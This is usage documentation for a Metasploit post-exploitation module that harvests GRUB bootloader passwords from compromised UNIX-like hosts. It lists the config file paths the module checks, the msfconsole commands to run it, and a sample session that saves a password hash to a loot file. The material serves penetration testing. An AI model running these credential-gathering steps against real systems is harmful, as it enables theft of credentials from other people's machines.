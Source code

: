 # Gather GRUB Passwords

Reads all passwords from GRUB configuration files on UNIX-like machines.

## Vulnerable Application

Any UNIX-like system with a `shell` or `meterpreter` session using GRUB.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/grub_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the
     session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable GRUB configuration files containing a password,
     they will be printed out.

## Options

**FILENAME**

A string that can be used to specify an additional file to check after the
usual places.

**VERBOSE**

A boolean that, when set, will provide more details on what is being checked.
_(Note: this option is defined elsewhere in metasploit, but this module can make
use of it.)_

## Scenarios

There are many places where a user might place the password that GRUB uses, so
inserting a password line into any of these locations will work without any
additional configuration:

```
   /boot/grub/grub.conf
   /boot/grub/grub.cfg
   /boot/grub/menu.lst
   /boot/grub2/grub.cfg
   /boot/grub2/user.cfg
   /etc/grub.conf
   /etc/grub.d/*
   /etc/grub/grub.cfg
   /mnt/sysimage/boot/grub.conf
   /mnt/boot/grub/grub.conf
   /rpool/boot/grub/grub.cfg
```


Using a Metasploitable 2 VM (running Ubuntu 8.04), you can add the line
`password topscret` to `/boot/grub/menu.lst` to easily see this module in
action.

### Meterpreter

Typical run against Ubuntu 18.04 LTS

  ```
msf5 exploit(handler) > use post/multi/gather/grub_creds
msf5 post(grub_creds) > set SESSION 1
SESSION => 1
msf post(grub_creds) > run

[*] Searching for GRUB config files..
[*] Reading /boot/grub/grub.cfg
[*] Reading /etc/grub.d/40_custom
[*] Reading /etc/grub.d/00_header
[*] Reading /etc/grub.d/20_linux_xen
[*] Reading /etc/grub.d/10_linux
[*] Reading /etc/grub.d/README
[*] Reading /etc/grub.d/01_users
[+] /etc/grub.d/01_users saved to /home/bcook/.msf4/loot/20191029041304_default_127.0.0.1_grub.config_755243.txt
[*] Reading /etc/grub.d/41_custom
[*] Reading /etc/grub.d/30_os-prober
[*] Reading /etc/grub.d/05_debian_theme
[*] Reading /etc/grub.d/30_uefi-firmware
[+] Found credentials

Grub Credential Table
=====================

 Username             Password
 --------             --------
 putyourusernamehere  grub.pbkdf2.sha512.10000.CB9E1ED1050D0AFBC6EC3B75413FB288AD255B960C6DBA31C00A03AC286847DF8B1DEE167ED54316FD62EEAFE4A617959F90249849FBCB562AC27E68A6D59F90.E6AB5AE4B5E4EF375218A620A798002F5B38EE5F31B549A66AF5533A7931419BAC30E2305A95113F60BE116C9F3FE22126FE7768D095DE6B9BCDC55632400B52
  ```
```


